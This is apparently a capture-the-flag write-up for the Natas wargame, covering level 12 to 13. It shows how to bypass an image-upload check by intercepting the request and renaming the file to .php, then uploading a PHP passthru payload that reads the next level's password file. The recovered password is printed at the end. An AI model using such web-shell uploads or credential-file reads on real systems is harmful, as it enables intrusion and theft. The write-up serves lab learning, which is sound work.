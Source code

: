 # Level 12 to Level 13

Use a proxy to intersect HTTP traffic (Fiddler or Burp Suite) and upload an hello world php file
```
<?php 
echo 'Hello World!';
```
Modify the extension to be `php` instead of `jpg` in HTTP payload, before seding it

Checking the page give, we can get our hello world printed on the page. It works

By uploading the following, you will get the password
```
<?php 
echo passthru("cat /etc/natas_webpass/natas13");
```

`jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY`